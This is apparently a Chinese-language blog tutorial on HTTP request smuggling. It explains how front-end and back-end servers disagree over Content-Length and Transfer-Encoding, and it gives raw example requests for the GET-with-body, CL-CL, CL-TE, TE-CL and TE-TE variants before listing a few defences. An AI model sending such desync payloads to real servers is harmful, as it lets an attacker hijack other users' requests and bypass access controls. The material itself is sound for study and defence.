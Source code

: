 ```yaml
---
layout:     post
title:      HTTP请求走私
date:       2020-05-19
author:     lceCr4m
header-img: img/3.jpg
catalog: true
tags:
    - HTTP请求走私
---
```

> 本文是关于HTTP请求走私的相关内容。

# 0x00 介绍
HTTP请求走私是一种干扰网站处理从一个或多个用户接收的HTTP请求序列的方式的技术。使攻击者可以绕过安全控制，未经授权访问敏感数据并直接危害其他应用程序用户。是一种协议层攻击。
# 0x01 原理
HTTP规范提供了两种不同的方法来指定请求的结束位置，即Content-Length和Transfer-Encoding标头。当使用多个服务器时，对客户端传入的数据理解不一致时，就会出现有些服务器认为Content-Length的长度有效，有些以Transfer-Encoding有效。而一般情况下，反向代理服务器与后端的源站服务器之间，会重用TCP链接。这样超出的长度就会拼接到下一次请求进行请求，从而导致HTTP请求走私漏洞。

前提：HTTP 1.1的协议特性——Keep-Alive&Pipeline。  
在HTTP1.0之前的协议设计中，客户端每进行一次HTTP请求，需要同服务器建立一个TCP链接。在1.1中添加了两个特性：

Keep-Alive：在HTTP请求中增加一个特殊的请求头Connection: Keep-Alive，告诉服务器，接收完这次HTTP请求后，不要关闭TCP链接，后面对相同目标服务器的HTTP请求，重用这一个TCP链接。这样只需要进行一次TCP握手的过程，可以减少服务器的开销，节约资源，还能加快访问速度。这个特性在HTTP1.1中默认开启的。  
Pipeline(http管线化)：http管线化是一项实现了多个http请求但不需要等待响应就能够写进同一个socket的技术，仅有http1.1规范支持http管线化。在这里，客户端可以像流水线一样发送自己的HTTP请求，而不需要等待服务器的响应，服务器那边接收到请求后，需要遵循先入先出机制，将请求和响应严格对应起来，再将响应发送给客户端。
# 0x02 利用
五种方式
## Ⅰ CL不为0的GET请求

```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n

GET /secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```
前端服务器处理了 Content-Length ，而后端服务器没有处理 Content-Length ，基于pipeline机制认为这是两个独立的请求，就造成了漏洞的发生。
## Ⅱ CL-CL

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n

12345\r\n
a
```
这个例子中a就会被带入下一个请求。比如：有一个正常用户发起了请求，因为代理服务器与源站服务器之间一般会重用TCP连接，所以正常用户的请求就拼接到了字母a的后面。
## Ⅲ CL-TE

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
...
Connection: keep-alive\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
a
```
这个例子中a同样会被带入下一个请求，变为 aGET / HTTP/1.1\r\n 。
## Ⅳ TE-CL

```
POST / HTTP/1.1\r\n
Host: example.com\r\n
...
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

## Ⅴ TE-TE
TE-TE指前后端服务器都处理 Transfer-Encoding 请求头，但是在容错性上表现不同，例如有的服务器可能会处理 Transfer-encoding。
```
POST / HTTP/1.1\r\n
Host: example.com\r\n
...
Content-length: 4\r\n
Transfer-Encoding: chunked\r\n
Transfer-encoding: cow\r\n
\r\n
5c\r\n
aPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

# 0x03 防御
1. 禁用后端连接重用
1. 确保连接中的所有服务器具有相同的配置
1. 拒绝有二义性的请求
